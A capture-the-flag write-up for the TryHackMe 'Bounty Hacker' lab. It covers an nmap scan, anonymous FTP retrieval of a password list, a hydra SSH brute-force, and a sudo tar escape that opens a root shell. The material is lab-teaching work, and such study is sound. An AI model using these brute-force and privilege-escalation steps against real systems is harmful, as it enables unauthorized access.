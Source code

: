 # TryHackMe | Bounty Hacker

[Bounty Hacker](https://tryhackme.com/room/cowboyhacker)

## Deploy the Machine

The instructions are pretty clear for this one. SMASH THAT GREEN BUTTON!!!

## Find open ports on the machine

We will use nmap to do a quick scan of the machine for open ports.

```bash
❯ nmap -sV $IP
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

## Who wrote the task list?

To find out who wrote it, we first have to find the task list itself. Let's check the hint for this task, which is "Have you visited FTP?". First let's check if anonymous login is enabled for ftp. Yes it is. Great, now we can copy over the text files we find to our system using the get command.

```bash
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jun 07  2020 .
drwxr-xr-x    2 ftp      ftp          4096 Jun 07  2020 ..
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp>

```

Now let's see the contents of the task.txt.

```bash
❯ cat task.txt
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin

```

We can see that the rather surreal sounding tasks have been written by "lin". This may potentially be a username that can be used later.

Let's look into locks.txt now. Looks like it is a list of passwords. It'll come in handy while brute-forcing the password.

```bash
❯ cat locks.txt
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e

```

## What service can you bruteforce with the text file found?

Now let's take a look at the hint for the next task. "What is on port 22?". SSH.

Let's brute force the ssh port using hydra. We use lin as the username and the retrieved locks.txt as our wordlist.

```bash
❯ hydra -l lin -P locks.txt $IP ssh
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

[22][ssh] host: 10.10.246.11   login: lin   password: [REDACTED]
1 of 1 target successfully completed, 1 valid password found

```

Okay, we have the password now. Let's try to ssh into the machine using these credentials.

![hacker-voice-im-in-9461453.png](images/hacker-voice-im-in-9461453.png)

Lets look around the system for a bit. On checking the home directory, we find the user.txt. Well, that was easy.

```bash
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
[DATA EXPUNGED]
lin@bountyhacker:~/Desktop$

```

Now to find root.txt, we have to escalate our privileges and gain root access to the system. To get started, we type sudo -l to see what commands our current user can run as root.

```bash
lin@bountyhacker:~/Desktop$ sudo -l
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
lin@bountyhacker:~/Desktop$
```

As we can see, lin can run /bin/tar as root. Lets head over to [https://gtfobins.github.io/](https://gtfobins.github.io/) and look for an exploit for this binary that can help us break out and gain a root shell. On searching for tar on the site, we get the following command.

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Lets pop that into the shell and see what happens. Hmm, it seems we have successfully gained root access.

![q89uenpzpn921.jpg](images/q89uenpzpn921.jpg)

Now we use the find command to locate root.txt.

```bash
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/` from member names
# whoami
root
# find / -name "root.txt" 2>/dev/null
/root/root.txt
# cat /root/root.txt
[DATA EXPUNGED]
#

```

So there you have it. We have finally completed the room. This was an easy room, so beginners like me shouldn't have much problems with it. If you couldn't do it by yourself though, don't lose hope, the path is full of learning opportunities. Hope you learned something new today. Adios.
